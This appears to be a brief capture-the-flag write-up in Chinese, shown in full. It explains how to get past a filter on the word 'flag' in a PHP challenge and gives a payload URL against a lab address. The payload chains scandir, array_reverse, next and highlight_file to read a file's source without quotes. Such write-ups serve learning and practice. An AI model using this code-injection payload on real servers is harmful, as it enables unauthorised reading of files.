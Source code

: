![tw1](./tw1.png)
 - 过滤了flag，可以通过reverse一下数组，再next一下指针绕过
![tw2](./tw2.png)
 - payload
```
http://172.21.4.12:10031/?exp=print_r(highlight_file(next(array_reverse(scandir(pos(localeconv()))))));
```